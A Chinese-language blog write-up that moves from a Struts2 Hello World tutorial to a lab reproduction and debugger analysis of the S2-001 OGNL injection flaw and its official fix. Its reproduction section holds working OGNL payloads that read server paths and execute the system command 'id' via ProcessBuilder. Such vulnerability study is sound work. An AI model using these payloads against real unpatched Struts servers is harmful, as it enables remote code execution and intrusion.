# 第一个struts程序

Struts2 是一个MVC拉动的（或MVC2）框架，Struts2 的模型-视图-控制器模式是通过以下五个核心部分进行实现的：

- 操作（Actions）
- 拦截器（Interceptors）
- 值栈（Value Stack）/OGNL
- 结果（Result）/结果类型
- 视图技术

而Struts2 与传统的MVC框架略有不同，因为它由Action扮演模型的角色，而不是控制器

在Struts2 的web应用程序里点击一个超链接或提交一个HTML表单时，会由控制器收集输入并发送一个叫Actions的Java类。Action被执行后，Result会选择一个资源给予响应。这个资源通常是一个JSP，也可以是一个PDF文件，一个Excel表格，或者是一个Java小程序窗口。

我们构建第一个Struts2 项目：**Hello World** 。这个项目的目标是构建一个收集用户名并在用户名后跟随显示“Hello World”的web应用程序。我们需要为每个Struts2 项目构建以下四个组件：

| **序号** | **名称及描述**                                               |
| -------- | ------------------------------------------------------------ |
| 1        | **Action（操作）**                                           |
|          | 创建一个动作类，包含完整的业务逻辑并控制用户、模型以及视图间的交互。 |
| 2        | **Interceptors（拦截器）**                                   |
|          | 这是控制器的一部分，可依据需求创建拦截器，或使用现有的拦截器。 |
| 3        | **View（视图）**                                             |
|          | 创建一个JSP与用户进行交互，获取输入并呈现最终信息。          |
| 4        | **Configuration Files（配置文件）**                          |
|          | 创建配置文件来连接动作、视图以及控制器，这些文件分别是struts.xml、web.xml以及struts.properties。 |

创建一个tomcat项目，导入相关的struts2包



## 创建Action类

Action类是struts的关键，当用户访问URL的时候，会由特定的Action处理，返回一个结果字符串，然后由特定的JSP呈现

```
package cn.struts;

public class HelloWorldAction{
    private String name;

    public String execute() throws Exception {
        return "success";
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }
}
```

定义了一个name变量，添加了getter和setter方法，还有一个execute方法，返回了一个success字符串（后续作为跳转页面的判断）

Struts2 框架将创建一个“HelloWorldAction”类的对象，并调用execute方法来响应用户的动作（具体的方法名是在struts中配置的）

所以我们的业务逻辑在execute方法里面实现

## 创建视图

Action类有了，接下来要创建视图，也就是我们的JSP文件

```
<%--
  Created by IntelliJ IDEA.
  User: DawnT0wn
  Date: 2022/10/26
  Time: 14:22
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html; charset=UTF-8" %>
<%@ taglib prefix="s" uri="/struts-tags" %>
<html>
<head>
    <title>Hello World</title>
</head>
<body>
Hello World, <s:property value="name"/>
</body>
</html>
```

taglib是使用自定义标签的，告知Servlet容器这个页面将使用Struts2 标签，并且这些标签会被s放在前面。s:property 标签显示Action类“name”属性的值，这个值是使用HelloWorldAction类的 **getName()** 方法返回的

在IDEA中使用Command+左键可以直接跟入对应标签在tld中的配置，以textfield为例，在tld中的配置如下



## 创建主页

刚才那个是执行后的视图，那我们还需要创建一个主页在未执行之前显示，一般来说是索引页面index.jsp

```
<%--
  Created by IntelliJ IDEA.
  User: DawnT0wn
  Date: 2022/10/26
  Time: 14:27
  To change this template use File | Settings | File Templates.
--%>
<%@ page language="java" contentType="text/html; charset=ISO-8859-1"
         pageEncoding="ISO-8859-1"%>
<%@ taglib prefix="s" uri="/struts-tags"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
"http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
    <title>Hello World</title>
</head>
<body>
<h1>Hello World From Struts2</h1>
<s:form action="hello">
    <label for="name">Please enter your name</label><br/>
    <input type="text" name="name"/>
    <input type="submit" value="Say Hello"/>
</s:form>
</body>
</html>

```

上面视图文件里定义的**hello** action将通过struts.xml文件影射到HelloWorldAction类及其execute方法。当用户点击提交按钮时，将使得Struts2框架运行HelloWorldAction类中的execute方法，并基于该方法的返回值，选择一个适当的视图作为响应进行呈现

这里我试了，如果不是写的`s:form`这种格式的话，直接访问hello可以发现没有办法将URL的hello和hello.action联系起来的

## 配置文件

前面都写好了，但是都是单独的个体，我们需要将他们联系起来，需要编写一个配置文件struts.xml，把URL、HelloWorldAction类（模型）以及 HelloWorld.jsp（视图）联系在一起。映像告知Struts2 框架哪个类将响应用户的动作（URL），类里的哪个方法将要执行，以及基于方法所返回的字符串结果，会呈现怎样的视图

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE struts PUBLIC
   "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
   "http://struts.apache.org/dtds/struts-2.0.dtd">
<struts>
<constant name="struts.devMode" value="true" />
   <package name="helloworld" extends="struts-default">
     
      <action name="hello" 
            class="cn.struts.HelloWorldAction" 
            method="execute">
            <result name="success">/HelloWorld.jsp</result>
      </action>
   </package>
</struts>
```

这里我们设定常数**struts.devMode**的值为**真**，因为我们是在开发环境下工作，需要查看一些有用的日志消息。然后，我们定义一个名为**helloworld**的数据包。当你想要把你的Actions集合在一起时，创建一个数据包是非常有用的

接下来就是最重要的了，定义了一个action名为hello，命名我们的动作为“hello”，与URL **/hello.action**保持一致，由**HelloWorldAction.class**进行备份，映射的class为cn.struts.HelloWorldAction，method就是当我们运行的时候最后调用了execute方法，如果返回值是success则跳转到HelloWorld.jsp

最后要访问就需要用到servlet，这里需要去配置一下web.xml文件

Struts2 应用程序的接入点将会定义为一个过滤器。因此我们将在web.xml里定义一个org.apache.struts2.dispatcher.FilterDispatcher 类的接入点

```
<display-name>Struts 2</display-name>
   <welcome-file-list>
      <welcome-file>index.jsp</welcome-file>
   </welcome-file-list>
   <filter>
      <filter-name>struts2</filter-name>
      <filter-class>
         org.apache.struts2.dispatcher.FilterDispatcher
      </filter-class>
   </filter>

   <filter-mapping>
      <filter-name>struts2</filter-name>
      <url-pattern>/*</url-pattern>
   </filter-mapping>
```

我们指定了index.jsp作为我们的欢迎文件

如果它是struts2-core-2.5.jar，那么将web.xml中的过滤器类标记值更改为

```
<filter-class>
     org.apache.struts2.dispatcher.filter.StrutsPrepareAndExecuteFilter
</filter-class>
```

如果它是struts2-core-2.1.3.jar，那么将web.xml中的过滤器类标记值更改为

```
<filter-class>
     org.apache.struts2.dispatcher.FilterDispatcher
</filter-class>
```

自Struts 2.1.3以来，FilterDispatcher就不推荐使用了。如果您使用的是较旧的版本，则用户高于解决方案。

如果它是struts2-core-2.3.X.jar，那么将web.xml中的过滤器类标记值更改为

```
<filter-class>      org.apache.struts2.dispatcher.ng.filter.StrutsPrepareAndExecuteFilter</filter-class>
```

输入后直接变成了hello.action，否则就是访问的hello，然后tomcat会报错



# 漏洞简介

**影响范围：**WebWork 2.2.0-WebWork 2.2.5，Struts 2.0.0-Struts 2.0.8

**漏洞成因：**

导致漏洞的原因是用户提交表单数据并且验证失败时，Struts2重新渲染jsp时后端会将用户之前提交的参数值使用ognl表达式进行递归解析然后重新填充到表单中

# 环境搭建

下载jar包https://www.cnblogs.com/twosmi1e/p/14020361.html

新建一个tomcat项目，项目结构如下



只需要struts的这五个包即可

LoginAction

```
package com.demo.action;

import com.opensymphony.xwork2.ActionSupport;

public class LoginAction extends ActionSupport {
    private String username = null;
    private String password = null;

    public String getUsername() {
        return this.username;
    }

    public String getPassword() {
        return this.password;
    }

    public void setUsername(String username) {
        this.username = username;
    }

    public void setPassword(String password) {
        this.password = password;
    }

    public String execute() throws Exception {
        if ((this.username.isEmpty()) || (this.password.isEmpty())) {
            return "error";
        }
        if ((this.username.equalsIgnoreCase("admin"))
                && (this.password.equals("admin"))) {
            return "success";
        }
        return "error";
    }
}
```

struts.xml

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
        "http://struts.apache.org/dtds/struts-2.0.dtd">
<struts>
    <package name="S2-001" extends="struts-default">
        <action name="login" class="com.demo.action.LoginAction">
            <result name="success">welcome.jsp</result>
            <result name="error">index.jsp</result>
        </action>
    </package>
</struts>
```

返回成功跳转到welcome.jsp，error则是index.jsp

index.jsp

```
<%--
  Created by IntelliJ IDEA.
  User: DawnT0wn
  Date: 2022/10/25
  Time: 13:42
  To change this template use File | Settings | File Templates.
--%>
<%@ page language="java" contentType="text/html; charset=UTF-8"
         pageEncoding="UTF-8"%>
<%@ taglib prefix="s" uri="/struts-tags" %>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
  <title>S2-001</title>
</head>
<body>
<h2>S2-001 Demo</h2>
<p>link: <a href="https://struts.apache.org/docs/s2-001.html">https://struts.apache.org/docs/s2-001.html</a></p>

<s:form action="login">
  <s:textfield name="username" label="username" />
  <s:textfield name="password" label="password" />
  <s:submit></s:submit>
</s:form>
</body>
</html>
```

welcome.jsp

```
<%--
  Created by IntelliJ IDEA.
  User: DawnT0wn
  Date: 2022/10/25
  Time: 13:45
  To change this template use File | Settings | File Templates.
--%>
--%>
<%@ page language="java" contentType="text/html; charset=UTF-8"
         pageEncoding="UTF-8"%>
<%@ taglib prefix="s" uri="/struts-tags" %>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
  <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
  <title>S2-001</title>
</head>
<body>
<p>Hello <s:property value="username"></s:property></p>
</body>
</html>
```

Web.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <display-name>S2-001 Example</display-name>
    <filter>
        <filter-name>struts2</filter-name>
        <filter-class>org.apache.struts2.dispatcher.FilterDispatcher</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>struts2</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
    <welcome-file-list>
        <welcome-file>index.jsp</welcome-file>
    </welcome-file-list>
</web-app>
```



搭建完成

# 漏洞复现

提交%{2+9}和%{2*9}返回到是计算后的结果，说明这里是有个表达式解析的





获取tomcat路径

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```


返回值是可以在输入框里面看到的

获取web路径

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}

本身获取request对象的路径如下
%{@org.apache.struts2.ServletActionContext@getRequest().getRealPath('/')}
```



这个是可以通过response对象打印到页面的

命令执行

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```



# 漏洞分析

struts2处理流程



在该图中，一共给出了四种颜色的标识，其对应的意义如下。

- Servlet Filters(橙色)：过滤器，所有的请求都要经过过滤器的处理。
- Struts Core(浅蓝色)：Struts2的核心部分。
- Interceptors(浅绿色)：Struts2的拦截器。
- User created(浅黄色)：需要开发人员创建的部分。

图中的一些组件的作用如下：

- FilterDispatcher：是整个Struts2的调度中心，也就是整个MVC架构中的C，它根据ActionMapper的结果来决定是否处理请求。
- ActionMapper：用来判断传入的请求是否被Struts2处理，如果需要处理的话，ActionMapper就会返回一个对象来描述请求对应的ActionInvocation的信息。
- ActionProxy：用来创建一个ActionInvocation代理实例，它位于Action和xwork之间。
- ConfigurationManager：是xwork配置的管理中心，可以把它当做已经读取到内存中的struts.xml配置文件。
- struts.xml：是Stuts2的应用配置文件，负责诸如URL与Action之间映射的配置、以及执行后页面跳转的Result配置等。
- ActionInvocation：用来真正的调用并执行Action、拦截器和对应的Result，作用类似于一个调度器。
- Interceptor：拦截器，可以自动拦截Action，主要在Action运行之前或者Result运行之后来进行执行，开发者可以自定义。
- Action：是Struts2中的动作执行单元。用来处理用户请求，并封装业务所需要的数据。
- Result：是不同视图类型的抽象封装模型，不同的视图类型会对应不同的Result实现，Struts2中支持多种视图类型，比如Jsp，FreeMarker等。
- Templates：各种视图类型的页面模板，比如JSP就是一种模板页面技术。
- Tag Subsystem：Struts2的标签库，它抽象了三种不同的视图技术JSP、velocity、freemarker，可以在不同的视图技术中，几乎没有差别的使用这些标签。

接下来我们可以结合上图，来了解下Struts2框架是如何处理一个HTTP请求的。

当HTTP请求发送个Web服务器之后，Web服务器根据用户的请求以及 `web.xml` 中的配置文件，将请求转发给 `Struts2` 框架进行处理。

1. HTTP请求经过一系列的过滤器，最后到达 `FilterDispatcher` 过滤器。
2. `FilterDispatcher` 将请求转发 `ActionMapper`，判断该请求是否需要处理。
3. 如果该请求需要处理，`FilterDispatcher`会创建一个 `ActionProxy` 来进行后续的处理。
4. `ActionProxy` 拿着HTTP请求，询问 `struts.xml` 该调用哪一个 `Action` 进行处理。
5. 当知道目标`Action`之后，实例化一个`ActionInvocation`来进行调用。
6. 然后运行在`Action`之前的拦截器，图中就是拦截器1、2、3。
7. 运行`Action`，生成一个`Result`。
8. `Result`根据页面模板和标签库，生成要响应的内容。
9. 根据响应逆序调用拦截器，然后生成最终的响应并返回给Web服务器

所以在org.apache.struts2.dispatcher.FilterDispatcher的doFilter方法下断点



调用了`this.dispatcher.serviceAction`

其实前面都是加载，我们也可以直接在LoginAction的execute方法下断点



可以看到，这个时候表达式还是没有执行的，说明执行是在这之后，前面的就是一些加载的流程，还有对相应变量赋值的操作

而我们在struts.xml中配置了默认拦截器

在 `struts2-core-2.0.8.jar!/struts-default.xml` 中可以找到默认使用的拦截器栈 `defaultStack`



需要关注的就是ParamtersInterceptor这个拦截器

在LoginAction返回error后，回到invokeAction


一直回退到



往下走，调用`this.proxy.getExecuteResult()`这个action是否有执行结果，然后调用`this.executeResult();`



这里会对action的execute结果进行处理，在struts2中会配置

```xml
	<package name="S2-001" extends="struts-default">
		<action name="login" class="com.demo.action.LoginAction">
			<result name="success">/welcome.jsp</result>
			<result name="error">/index.jsp</result>
		</action>
	</package>
```

对执行返回success或error进行跳转到对应的jsp



跟进execute



跟进doExecute



最后调用了dispatcher.forward进行转发



中间这里跟不过去，直接在`org.apache.struts2.views.jsp.ComponentTagSupport#doStartTag`中下断点，该方法会解析jsp中的struts标签



第一次解析的是Form标签



第二次解析的username



username解析完后会走到doEndTag方法



跟进end方法



跟进this.evaluateParams()



这里就是去找到这个username赋值给name，继续往下



这里this.altSyntax()是检查ongl表达式是否开启，开启的话拼接`%{}`直接使用表达式

往下跟进findValue



这里调用translateVariables



继续跟进





这里通过OGNL获取到username的值

第二次执行到这里



这个时候表达式就是%{4*4}，跟进findValue



此时value的值变成了16

# 漏洞修复

官方修复

```
public static Object translateVariables(char open, String expression, ValueStack stack, Class asType, ParsedValueEvaluator evaluator, int maxLoopCount) {
    // deal with the "pure" expressions first!
    //expression = expression.trim();
    Object result = expression;
    int loopCount = 1;
    int pos = 0;
    while (true) {

        int start = expression.indexOf(open + "{", pos);
        if (start == -1) {
            pos = 0;
            loopCount++;
            start = expression.indexOf(open + "{");
        }
        if (loopCount > maxLoopCount) {
            // translateVariables prevent infinite loop / expression recursive evaluation
            break;
        }
        int length = expression.length();
        int x = start + 2;
        int end;
        char c;
        int count = 1;
        while (start != -1 && x < length && count != 0) {
            c = expression.charAt(x++);
            if (c == '{') {
                count++;
            } else if (c == '}') {
                count--;
            }
        }
        end = x - 1;

        if ((start != -1) && (end != -1) && (count == 0)) {
            String var = expression.substring(start + 2, end);

            Object o = stack.findValue(var, asType);
            if (evaluator != null) {
                o = evaluator.evaluate(o);
            }


            String left = expression.substring(0, start);
            String right = expression.substring(end + 1);
            String middle = null;
            if (o != null) {
                middle = o.toString();
                if (!TextUtils.stringSet(left)) {
                    result = o;
                } else {
                    result = left + middle;
                }

                if (TextUtils.stringSet(right)) {
                    result = result + right;
                }

                expression = left + middle + right;
            } else {
                // the variable doesn't exist, so don't display anything
                result = left + right;
                expression = left + right;
            }
            pos = (left != null && left.length() > 0 ? left.length() - 1: 0) +
                  (middle != null && middle.length() > 0 ? middle.length() - 1: 0) +
                  1;
            pos = Math.max(pos, 1);
        } else {
            break;
        }
    }

    return XWorkConverter.getInstance().convertValue(stack.getContext(), result, asType);
}
```

可以看到增加了对OGNL递归解析次数的判断，默认情况下只会解析第一层

```kotlin
Copyif (loopCount > maxLoopCount) {
    // translateVariables prevent infinite loop / expression recursive evaluation
    break;
}
```


参考链接：

https://www.cnblogs.com/nice0e3/p/16197395.html#poc%E9%87%87%E9%9B%86

https://www.cnblogs.com/twosmi1e/p/14020361.html

https://lanvnal.com/2020/12/15/s2-001-lou-dong-fen-xi/